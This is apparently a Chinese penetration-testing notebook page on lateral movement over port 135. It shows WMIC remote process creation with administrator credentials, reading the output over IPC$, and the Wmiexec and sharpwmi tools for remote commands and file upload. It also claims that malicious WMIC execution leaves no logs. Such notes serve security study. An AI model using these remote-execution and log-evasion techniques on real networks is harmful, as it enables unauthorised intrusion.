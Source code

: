  
<a name="D0XZ2"></a>
## 135端口横向操作
使用WMIC远程执行命令，在远程系统中启动WMIC服务(目标服务器需要开放135端口，WMIC会以管理员权限在远程系统中执行命令)。如果目标服务器开启了防火墙，WMIC将无法连接。另外由于wmic命令没有回显，需要使用IPC$和type命令来读取信息。需要注意的是，如果WMIC执行的是恶意程序，将不会留下日志。<br /> <br />#以administrator用户,x123456./@密码连接192.168.10.131，并在机器上执行ipconfig命令，将结果写入c:\ip.txt文件中<br /> <br />wmic /node:192.168.10.131 /user:administrator /password:x123456./@ process call create "cmd.exe /c ipconfig > c:\ip.txt"<br /> <br />#然后在建立IPC$连接读取c:\ip.txt文件的内容<br /> <br />Wmiexec.exe<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611388851397-58a8a6d0-922d-4590-9655-30ccdcc27a43.png#height=99&id=eglfD&originHeight=188&originWidth=787&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=416)

<a name="iZeRz"></a>
## sharpwmi.exe(135端口
.\sharpwmi.exe 192.168.201.132 administrator Aufeng123 cmd ipconfig<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1631110132871-82a6cd8a-b5db-49c1-a4f5-b5fb117ff70a.png#clientId=u94f4952a-a408-4&from=paste&height=171&id=u81a98f3a&originHeight=342&originWidth=1200&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65171&status=done&style=none&taskId=u37d4268a-ea7d-4127-b63d-0bd07bcd528&title=&width=600)<br />可传输<br /> 只支持上传512kb以下的文件<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1631110179190-39d21e8b-9584-4e36-80f8-e2491df93e6e.png#clientId=u94f4952a-a408-4&from=paste&height=104&id=u0a937e37&originHeight=138&originWidth=957&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24540&status=done&style=none&taskId=u02084e1f-4937-43af-a049-f2f1a2f01e1&title=&width=718)


